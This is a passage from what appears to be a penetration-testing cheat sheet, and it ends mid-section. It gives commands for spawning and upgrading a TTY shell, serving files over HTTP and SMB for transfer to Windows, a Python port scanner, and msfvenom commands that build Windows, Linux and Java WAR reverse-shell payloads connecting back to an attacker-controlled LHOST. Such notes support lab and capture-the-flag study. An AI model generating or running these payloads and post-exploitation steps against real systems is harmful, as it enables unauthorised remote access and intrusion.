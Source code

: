 - Spawning TTY Shell:
    
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
    - Upgrade shell:
        - `export TERM=xterm` then `Ctrl + Z`
        - Finally, `stty raw -echo; fg`
- Running an HTTP Server:
    
    ```bash
    python3 -m http.server <PORT>
    ```
    
- Transferring file from Linux to Windows ⬇️
    - **Example**: running an SMB server:
        
        ```bash
        python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
        ```
        
        - (Windows) Copy file from SMB server:
            
            ```powershell
            copy \\<IP>\kali\<filename> C:\Temp\<filename>
            ```   
    
➡️ [File transfer techniques](https://github.com/amirr0r/notes/blob/master/Infosec/Pentest/file-transfer.md)

- Quick Port scanner:
  ```python
  #!/usr/bin/env python3
  import socket

  host = str(input("Host: "))
  #port = int(input("Port: "))
  print(f"Scanning \033[92m{host}\033[0m")
  for port in range(1,65535):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    result = s.connect_ex((host,port))
    if result == 0:
      print(f'{port} is \033[92mopen\033[0m')
    #else: 
    #    print(f'{port} is \033[93mclosed\033[0m')
  ```

## 💀`MSFvenom`

- Generating a reverse shell executable:
    - Staged ⇒ `windows/shell/reverse_tcp` (sent in multiple parts)
    - Non-staged ⇒ `windows/shell_reverse_tcp` (sent in its entirety along with the exploit)
    
    ```bash
    # Windows
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=1234 -f exe -o reverse-shell.exe
    # Linux
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f elf -o reverse-shell.elf
    # WAR (Java application such as Tomcat)
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f war -o reverse-shell.war
    # HTA attack (can be used in Macros)
